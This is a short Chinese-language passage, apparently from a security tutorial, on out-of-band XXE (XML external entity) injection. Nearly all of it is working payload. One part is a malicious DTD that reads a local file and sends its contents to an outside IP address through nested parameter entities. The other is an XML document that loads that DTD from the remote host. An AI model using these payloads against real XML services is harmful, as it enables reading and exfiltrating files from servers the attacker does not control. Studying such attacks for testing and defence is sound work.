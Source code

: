 这种方式需要用到参数实体，要在服务器上放一个恶意的DTD文档

```
<!ENTITY % file SYSTEM "file:///Users/DawnT0wn/aaa.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://47.93.248.221:9999?p=%file;'>">
```

因为实体中不能含有`%`，使用用html实体编码`&#37;`替代

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://47.93.248.221:2333/test.dtd">
%remote;%int;%send;
]>
```

![image-20231004100625851](images/16.png)

![image-20231004100635831](images/17.png)

